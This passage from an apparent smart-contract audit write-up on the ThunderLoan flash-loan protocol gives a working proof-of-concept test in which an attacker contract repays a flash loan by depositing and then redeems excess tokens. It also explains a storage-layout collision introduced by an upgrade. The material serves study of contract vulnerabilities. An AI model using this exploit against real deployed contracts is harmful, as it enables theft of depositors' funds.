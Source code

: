 ```javascript

    function redeemMoney() public {
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(s_token, amount);
    }
}
```


```javascript
    function testDepositOverRepay() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        vm.stopPrank();

        dor.redeemMoney();

        console2.log("balance of dor is: ", tokenA.balanceOf(address(dor)));
        console2.log("balance of dor should be: ", 50e18 + fee);
        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee);
    }
```


```shell
Logs:
  balance of dor is:  50157185829891086986
  balance of dor should be:  50150000000000000000
```


The output shows `dor` has more than expected, confirming the vulnerability is correctly triggered.

## Don’t Arbitrarily Change Variable Order When Upgrading Contracts

The third critical vulnerability appears during `ThunderLoan` upgrade. A simple comparison of the variable declarations in `ThunderLoan.sol` and `ThunderLoanUpgraded.sol` reveals a severe issue:


```solidity
    // ThunderLoan.sol
    uint256 private constant s_feePrecision = 1e18;
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    
    // ThunderLoanUpgraded.sol
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    uint256 public constant FEE_PRECISION = 1e18;
```


Because the storage layout is fixed upon deployment, if the variable declaration order is changed during upgrade, variables’ actual values will misalign with their names, leading to unexpected runtime errors. The severity depends on the variable functionality. For `ThunderLoan`, it results in fee miscalculations.
